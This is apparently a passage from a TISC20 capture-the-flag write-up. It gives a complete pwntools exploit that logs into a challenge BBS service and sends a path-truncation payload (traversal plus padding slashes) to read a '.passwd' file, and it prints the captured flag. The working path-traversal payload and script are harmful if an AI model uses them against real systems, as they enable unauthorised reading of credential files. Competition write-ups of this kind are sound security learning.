 Knowing this, we can combine the path truncation attack into everything we know so far.

The full exploit script:

```python
#!/usr/bin/python

from pwn import *

#context.log_level = 'debug'

def main():
    #p = process('repaired_bbs_patched')
    p = remote('fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg', 12123)

    # Username Prompt
    p.recvuntil("USERNAME: \33[0m")
    p.sendline("guest")

    # Password Prompt
    p.recvuntil("PASSWORD: \33[0m")
    p.sendline("0011ff2244ffbbaaaa22hhcc")

    # Path Truncation Attack
    length = 254
    pathing = b'/home/bbs/threads/'
    prefix = b'../'
    back_part = b'/.passwd'
    slashes = b'/' * (length - len(pathing) - len(back_part) - len(prefix))
    payload = prefix + slashes + back_part

    # SELECT prompt
    p.recvuntil("SELECT: \33[0m")
    p.sendline("V")

    # Send the path
    p.recvuntil("THREAD: \33[0m")
    p.sendline(payload)

    # Get the flag.
    p.recvuntil('\x1b[H')
    flag = p.recvline()
    log.success("Flag: %s" % flag.decode("utf-8"))


if __name__ == '__main__':
    main()
```

Running the script gives us the flag:

```console
python exploit.py
[+] Opening connection to fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg on port 12123: Done
[+] Flag: TISC20{m4ngl3d_b4ngl3d_wr4ngl3d}
```
